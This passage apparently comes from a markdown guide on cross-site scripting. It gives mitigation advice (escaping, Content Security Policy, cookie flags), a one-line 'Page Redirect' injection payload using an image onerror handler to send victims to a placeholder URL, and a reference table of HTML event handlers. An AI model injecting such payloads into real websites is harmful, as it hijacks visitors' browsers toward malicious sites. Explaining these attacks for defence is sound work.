**Suggestion**: Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description)), deploy a strict [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

-

</details>

### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
   ~~~
   src=x onerror="window.location.href='<$url>'"
   ~~~

### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>
